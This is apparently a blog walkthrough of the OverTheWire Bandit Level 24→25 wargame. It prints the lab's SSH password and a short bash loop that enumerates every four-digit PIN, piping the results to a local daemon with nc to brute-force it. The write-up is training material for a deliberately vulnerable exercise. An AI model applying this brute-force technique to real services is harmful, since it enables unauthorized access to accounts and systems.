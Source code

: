 ```yaml
---
author: Programmercave
date: "2019-12-26T00:00:00Z"
description: Learn linux command by playing Bandit wargame. The Bandit wargame is
  aimed at absolute beginners. It will teach the basics needed to be able to play
  other wargames. Below is the solution of Bandit Level 24 → Level 25. In this level
  you will learn how to bruteforce password and connect to a remote machine on a port.
  The passwords are hidden, so you have to find the passwords for next level yourself.
header-img: /assets/images/Bandit-Overthewire/overthewire_poster.jpg
tags:
- Linux
- OverTheWire-Bandit
- CTF
title: Bandit Level 24 → Level 25 | OverTheWire
---
```




Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. 

In this level you will learn how to bruteforce password and connect to a remote machine on a port. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire](/assets/images/Bandit-Overthewire/overthewire_poster.jpg)

### Previous Post

[Bandit Level 0 to Level 3](/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8](/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11](/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13](/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15](/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18](/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20](/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22](/Bandit-Level-21-to-Level-23-OverTheWire)<br/>
[Bandit Level 23 → Level 24](/Bandit-Level-23-Level-24-OverTheWire)

## [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

### Solution : 

Command to connect remote host : `ssh bandit24@bandit.labs.overthewire.org -p 2220` password is `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` .

We can connect on port 30002 in a same way as we have done in level 20. We also have to pass password for current level and the 4 digit pin.The command is
```
nc localhost 30002  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ****
```

To brute-force pin we wil write a shell script in */tmp/mydir123* directory.
 
The script is
``` 
#!/bin/bash
for i in {0000..9999}
do 
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```

The name of the script is *bruteforcescript.sh* and file *combinations.txt* will store all combinations of 4 digit number with password for bandit20. First we have to make bruteforcescript.sh executable using command 
```
chmod 700 bruteforcescript.sh
./bruteforcescript.sh > combinations.txt
```

And the final command is
```
nc localhost 30002 < combinations.txt
```
The password for the next level is `****` .

![Bandit Level 24 25](/assets/images/Bandit-Overthewire/bandit_l2425_terminal.jpg)

Reference : [https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script](https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script)<br/>
[https://skyenet.tech/brute-force-password-attacking/](https://skyenet.tech/brute-force-password-attacking/)

### Next Post

[Bandit Level 25 to Level 26](/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31](/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33](/Bandit-Level-32-Level-33-OverTheWire)<br/>




